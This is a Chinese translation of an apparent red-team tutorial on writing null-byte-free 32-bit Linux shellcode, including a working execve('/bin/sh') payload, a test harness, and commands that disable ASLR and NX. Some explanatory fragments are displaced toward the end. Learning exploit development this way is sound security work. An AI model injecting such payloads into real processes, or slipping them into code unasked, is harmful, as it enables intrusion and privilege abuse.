\newpage
\subsection{Linux shellcode 编写：示例}

﷽

{width="80%"}

### shellcode

编写 shellcode 是学习汇编语言以及程序如何与底层操作系统通信的绝佳方式。

为什么我们红队人员和渗透测试人员要写 shellcode？因为在真实案例中，shellcode 可以被注入到一个正在运行的程序中，让它去做它本来不该做的事，比如缓冲区溢出攻击。所以 shellcode 通常可以被用作利用（exploit）的“载荷”。

为什么叫“shellcode”？从历史上说，shellcode 是一段机器码，执行后会派生（spawn）出一个 shell。

### 测试 shellcode

在测试 shellcode 时，最好直接把它塞进一个程序里让它运行。下面的 C 程序将用来测试我们的所有代码（`run.c`）：

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "my shellcode here";

int main(int argc, char **argv) {
  int (*func)();  // function pointer
  func = (int (*)()) code;  // func points to our shellcode
  (int)(*func)();  // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;

```

地址空间布局随机化（Address Space Layout Randomization，ASLR）是当今大多数操作系统中使用的一种安全特性。

ASLR 随机排列进程的地址空间，包括栈、堆和库。它提供了一种让利用（exploitation）难以成功的机制。在 Linux 中，你可以使用 `/proc/sys/kernel/randomize_va_space` 接口来配置 ASLR。

1 —— 保守随机化

要禁用 ASLR，运行：

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

要启用 ASLR，运行：

```bash
echo 2 > /proc/sys/kernel/randomize_va_space 
```

### 一些汇编

首先，让我们再复习一些入门信息，请耐心等待。

**x86 Intel 寄存器组。**

`EAX`、`EBX`、`ECX` 和 `EDX` 都是 32 位通用寄存器（General Purpose Registers）。

**汇编指令。**在汇编编程中，有一些指令很重要：

```nasm
mov  eax, 32  ; assign: eax = 32
xor  eax, eax  ; exclusive OR
push eax  ; push something onto the stack
pop  ebx  ; pop something from the stack 
; (what was on the stack in a register/variable)
call mysuperfunc  ; call a function
int  0x80  ; interrupt, kernel command
```

**Linux 系统调用。**系统调用是用户空间与内核空间之间接口的 API。你可以在汇编程序中使用 Linux 系统调用。要在程序中使用 Linux 系统调用，你需要执行以下步骤：

调用相应的中断（80h）。

所有 x86 系统调用都列在 `/usr/include/asm/unistd_32.h` 中。

libc 如何包装系统调用的例子：

```cpp
/*
exit0.c - for demonstrating 
how libc wraps syscalls
*/
#include <stdlib.h>

void main() {
  exit(0);

```

我们来编译并反汇编：

```bash
gcc -masm=intel -static -m32 -o exit0 exit0.c
gdb -q ./exit0
```

{width="80%"}

`0xfc` = `exit_group()`，`0x1` = `exit()`。

### nullbytes（空字节）

首先，我想提请你的注意空字节（nullbyte）。

```cpp
/*
meow.c - demonstrate nullbytes
*/
#include <stdio.h>
int main(void) {
  printf ("=^..^= meow \x00 meow");
  return 0;

```

编译并运行：

```bash
gcc -m32 -w -o meow meow.c
./meow
```

{width="80%"}

如你所见，空字节 `\x00` 截断了这条指令链。

利用通常攻击的是 C 代码，因此 shellcode 往往需要以一个 NUL 结尾的字符串形式投递。如果 shellcode 中包含 NUL 字节，那么被利用的 C 代码可能会忽略并从第一个零字节开始丢弃其余的代码。

这只涉及机器码。如果你需要调用编号为 `0xb` 的系统调用，那么自然你需要能在 `EAX` 寄存器中产生 `0xb` 这个数，但你只能使用那些机器码本身不包含零字节的机器码形式。

先是 `exit1.asm`：

```nasm
; just normal exit
; author @cocomelonc
; nasm -f elf32 -o exit1.o exit1.asm
; ld -m elf_i386 -o exit1 exit1.o && ./exit1
; 32-bit linux

section .data

section .bss

section .text
  global _start  ; must be declared for linker

; normal exit
_start:  ; linker entry point
  mov eax, 0  ; zero out eax
  mov eax, 1  ; sys_exit system call
  int 0x80  ; call sys_exit
```

编译并查看 `exit1.asm`：

```bash
nasm -f elf32 -o exit1.o exit1.asm
ld -m elf_i386 -o exit1 exit1.o
./exit1
objdump -M intel -d exit1
```

{width="80%"}

如你所见，机器码中有一个零字节。

其次是 `exit2.asm`：

```nasm
; just normal exit
; author @cocomelonc
; nasm -f elf32 -o exit2.o exit2.asm
; ld -m elf_i386 -o exit2 exit2.o && ./exit2
; 32-bit linux

section .data

section .bss

section .text
  global _start  ; must be declared for linker

; normal exit
_start:  ; linker entry point
  xor eax, eax  ; zero out eax
  mov al, 1  ; sys_exit system call (mov eax, 1) 
  ; with remove null bytes
  int 0x80  ; call sys_exit
```

编译并查看 `exit2.asm`：

```bash
nasm -f elf32 -o exit2.o exit2.asm
ld -m elf_i386 -o exit2 exit2.o
./exit2
objdump -M intel -d exit2
```

{width="80%"}

如你所见，其中没有嵌入的零字节。

正如我前面写的，`EAX` 寄存器有 `AX`、`AH` 和 `AL`。`AX` 用来访问 `EAX` 的低 16 位。`AL` 用来访问 `EAX` 的低 8 位，`AH` 用来访问高 8 位。那么这对编写 shellcode 为什么重要？回想一下空字节为什么是个坏东西。使用寄存器的较小部分，让我们可以用 `mov al, 0x1` 而不产生空字节。如果我们要做 `mov eax, 0x1`，就会在我们的 shellcode 中产生空字节。

这两个程序在功能上是等价的。

### example1. 正常退出

我们从最简单的例子开始。让我们用我们的 `exit.asm` 代码作为 shellcoding 的第一个例子：

```nasm
; just normal exit
; author @cocomelonc
; nasm -f elf32 -o example1.o example1.asm
; ld -m elf_i386 -o example1 example1.o && ./example1
; 32-bit linux

section .data

section .bss

section .text
  global _start  ; must be declared for linker

; normal exit
_start:  ; linker entry point
  xor eax, eax  ; zero out eax
  mov al, 1  ; sys_exit system call (mov eax, 1) 
  ; with remove null bytes
  int 0x80  ; call sys_exit
```

注意 `al` 和 XOR 技巧，以确保我们的代码中不会进入任何 NULL 字节。

提取字节码：

```bash
nasm -f elf32 -o example1.o example1.asm
ld -m elf_i386 -o example1 example1.o
objdump -M intel -d example1
```

{width="80%"}

它在十六进制下看起来是这样的。

所以，我们需要的字节是 `31 c0 b0 01 cd 80`。把顶部的代码（`run.c`）替换为：

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc0\xb0\x01\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();  // function pointer
  func = (int (*)()) code;  // func points to our shellcode
  (int)(*func)();  // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;

```

现在，编译并运行：

```bash
gcc -z execstack -m32 -o run run.c
./run
echo $?
```

{width="80%"}

`-z execstack` 关闭 NX 保护，使栈可执行。

我们的程序返回了 0 而不是 1，所以我们的 shellcode 生效了。

### example2. 派生一个 Linux shell

我们来编写一个简单的、能派生 shell 的 shellcode（`example2.asm`）：

```nasm
; example2.asm - spawn a linux shell.
; author @cocomelonc
; nasm -f elf32 -o example2.o example2.asm
; ld -m elf_i386 -o example2 example2.o && ./example2
; 32-bit linux

section .data
  msg: db '/bin/sh'

section .bss

section .text
  global _start  ; must be declared for linker

_start:  ; linker entry point

  ; xoring anything with itself clears itself:
  xor eax, eax  ; zero out eax
  xor ebx, ebx  ; zero out ebx
  xor ecx, ecx  ; zero out ecx
  xor edx, edx  ; zero out edx

  mov al, 0xb  ; mov eax, 11: execve
  mov ebx, msg  ; load the string pointer to ebx
  int 0x80  ; syscall

  ; normal exit
  mov al, 1  ; sys_exit system call 
  ; (mov eax, 1) with remove 
  ; null bytes
  xor ebx, ebx  ; no errors (mov ebx, 0)
  int 0x80  ; call sys_exit
```

要编译它，使用以下命令：

```bash
nasm -f elf32 -o example2.o example2.asm
ld -m elf_i386 -o example2 example2.o
./example2
```

{width="80%"}

如你所见，我们的程序通过 `execve` 派生了一个 shell。

{width="80%"}

注意：用 `system("/bin/sh")` 不是简单得多吗？嗯，那种方法唯一的问题在于 `system` 总是会丢弃权限（drops privileges）。

所以，`execve` 接收 3 个实参：

这一次，我们将直接写出任何空字节都没有的代码，用栈来存储变量（`example3.asm`）：

```nasm
; run /bin/sh and normal exit
; author @cocomelonc
; nasm -f elf32 -o example3.o example3.asm
; ld -m elf_i386 -o example3 example3.o && ./example3
; 32-bit linux

section .bss

section .text
  global _start  ; must be declared for linker

_start:  ; linker entry point

  ; xoring anything with itself clears itself:
  xor eax, eax  ; zero out eax
  xor ebx, ebx  ; zero out ebx
  xor ecx, ecx  ; zero out ecx
  xor edx, edx  ; zero out edx

  push eax  ; string terminator
  push 0x68732f6e ; "hs/n"
  push 0x69622f2f ; "ib//"
  mov ebx, esp  ; "//bin/sh",0 pointer is ESP
  mov al, 0xb  ; mov eax, 11: execve
  int 0x80  ; syscall

```

现在，让我们汇编它并检查它是否正常工作、且不包含任何空字节：

```bash
nasm -f elf32 -o example3.o example3.asm
ld -m elf_i386 -o example3 example3.o
./example3
objdump -M intel -d example3
```

{width="80%"}

然后，通过一些 bash 技巧和 `objdump` 提取字节码：

```bash
objdump -d ./example3|grep '[0-9a-f]:'|grep -v 'file'|cut \
-f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '| \
sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s | \
sed 's/^/"/'|sed 's/$/"/g'
```

{width="80%"}

所以，我们的 shellcode 是：

```cpp
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e
\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\xb0\x0b\xcd\x80"
```

然后，把顶部的代码（`run.c`）替换为：

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc0\x31\xdb\x31\xc9\x31"
"\xd2\x50\x68\x6e\x2f\x73\x68\x68"
"\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();  // function pointer
  func = (int (*)()) code;  // func points to our shellcode
  (int)(*func)();  // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;

```

编译并运行：

```bash
gcc -z execstack -m32 -o run run.c
./run
```

{width="80%"}

如你所见，一切运行完美。现在，你可以使用这个 shellcode 并把它注入到一个进程中。

在下一部分，我将去创建一个反向 TCP shellcode。

强烈建议掌握 C 语言和汇编语言。另外，了解栈（stack）的工作原理也是一个很大的加分项。

当然，你也可以试着从这个教程里了解它们的含义，但更好的做法是花些时间，从更深入的资料去学习这些内容。

### 禁用 ASLR

支持以下取值：

0 —— 不随机化

2 —— 完全随机化

`AH`、`BH`、`CH` 和 `DH` 访问通用寄存器的高 16 位。

`AL`、`BL`、`CL` 和 `DL` 访问通用寄存器的低 8 位。

`EAX`、`AX`、`AH` 和 `AL` 被称为“累加器”（Accumulator）寄存器，可用于 I/O 端口访问、算术运算、中断调用等。我们可以用这些寄存器来实现系统调用。

`EBX`、`BX`、`BH` 和 `BL` 是“基址”（Base）寄存器，用作内存访问的基址指针。我们将用这个寄存器来存储系统调用实参的指针。这个寄存器有时也用来存储中断的返回值。

`ECX`、`CX`、`CH` 和 `CL` 也被称为“计数器”（Counter）寄存器。

`EDX`、`DX`、`DH` 和 `DL` 被称为“数据”（Data）寄存器，可用于 I/O 端口访问、算术运算和一些中断调用。

把系统调用号放入 `EAX` 寄存器。

把系统调用的实参存入 `EBX`、`ECX` 等寄存器。

结果通常返回在 `EAX` 寄存器中。

我们来研究一个简单的程序：

我们来编译并运行两段等价的代码。

要执行的程序 —— `EBX`

实参或 argv（null）—— `ECX`

环境变量或 envp（null）—— `EDX`

### 参考资料
